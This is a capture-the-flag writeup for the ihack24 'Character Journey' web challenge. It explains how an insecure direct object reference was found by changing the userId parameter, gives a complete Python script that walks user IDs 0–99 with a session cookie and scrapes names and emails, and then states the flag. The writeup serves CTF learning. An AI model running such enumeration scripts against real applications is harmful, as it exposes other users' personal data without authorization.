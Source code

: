 ```yaml
---
title: Character Journey
description: The objective of the "Character Journey" CTF challenge is to find and retrieve the flag from a web application by exploiting IDOR.
date: 2024-07-28 00:00:00+0000
categories:
   - testing
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.

![Challenge](challenge.png)

## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        ![Found IDOR](<found IDOR.png>)



        ![Base64 Chunks](<base64 chunks.png>)

4. **Brute Force Exploration**:
   - Develop a script to automate the process of testing user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.



      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.



      ![Brute Force](<brute force.png>)


      ![Flag](flag.png)


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**